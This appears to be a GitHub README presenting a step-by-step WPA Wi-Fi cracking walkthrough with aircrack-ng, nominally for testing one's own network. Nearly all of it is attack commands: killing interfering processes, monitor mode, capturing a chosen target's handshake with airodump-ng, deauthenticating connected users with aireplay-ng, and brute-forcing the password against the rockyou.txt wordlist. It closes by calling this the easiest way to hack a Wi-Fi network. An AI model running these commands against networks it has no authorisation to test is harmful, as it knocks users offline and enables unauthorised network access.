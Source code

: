 
# Hacking Wifi
This repository will detail the principle of testing your network. With aircrack-ng.<br>

## Remove unnecessary processes
This command will check and kill processes that might interfere with the aircrack-ng package:
```bash
sudo airmon-ng check kill
```
## Putting the wifi adapter into monitoring mode
You need to define your network interface. To do this, use the command below, it will display all available network interfaces.
```bash
ifconfig
```
We are interested in the `wlan0` network interface.<br>
Now we need to put our network adapter into monitoring mode.<br>
```bash
sudo airmon-ng start wlan0
```
## Monitoring of all wifi networks.
Start browsing wifi networks.
```bash
sudo airodump-ng wlan0
```
## Monitoring of a specific wifi network.
After viewing, we need to select a target for attack.<br>
The parameters we are interested in are: `bssid` and `channel`.
After the selection, we start interception on a specific access point.
```bash
airodump-ng --bssid <bssid> -c <cannel> -w <name_wpa_handshake> <network_interface>
```
Example:
```bash
airodump-ng --bssid ff:ff:ff:ff:ff:ff -c 1 -w handshake wlan0
```
## Wifi network user deauthentication
Now we need to open a new console window.<br>
Now you need to authenticate users of the wifi network. With airplay-ng.
```bash
aireplay-ng --deauth <number_of_users> -a <bssid> <network_interface>
```
Example:
```bash
aireplay-ng --deauth 100 -a ff:ff:ff:ff:ff:ff wlan0
```
## Bruteforce
After capturing the handshake, we start brute-force the password using the dictionary. You can use `rockyou.txt` located in `/usr/share/wordlists/rockyou.txt`. If it is packed in an archive, that is, the file name is `rockyou.txt.gz`, then you need to unpack it with the command below.
```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```
We will use this dictionary for brute force, but you can use your own.
```bash
aircrack-ng <name_wpa_handshake> -w <path_to_dictionary>
```
Example:
```bash
aircrack-ng handshake-01.cap -w /usr/share/wordlists/rockyou.txt
```

## Conclusion
After that, if specifically in the dictionary you specified there is a password combination that will be correct, then the password will be determined and brute force will end; if there is no such combination in the dictionary, then try in another one.
<br><br>
Here we have analyzed the easiest way to hack a wifi network using brute force.
